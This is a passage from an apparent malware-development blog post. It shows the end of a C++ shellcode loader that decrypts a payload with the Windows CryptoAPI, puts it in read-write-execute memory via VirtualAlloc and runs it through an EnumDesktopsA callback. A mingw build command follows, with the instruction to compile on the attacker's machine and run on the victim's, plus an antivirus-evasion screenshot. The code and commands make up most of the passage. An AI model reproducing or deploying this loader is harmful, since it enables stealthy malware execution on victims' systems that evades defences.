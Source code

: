 ```cpp
    printf("0x%02x, ", dec_payload[i]);
  }
  printf("\n\n");

  CryptDestroyKey(hKey);
  CryptReleaseContext(hProv, 0);

  LPVOID mem = VirtualAlloc(NULL, dec_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, dec_payload, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

As you can see, the only difference is key setting logic.     

### demo 2

Compile it at the attacker's machine and run it at the victim's machine:     

```bash
x86_64-w64-mingw32-g++ -O2 hack2.cpp -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](/assets/images/88/2023-02-14_21-09.png){:class="img-responsive"}      
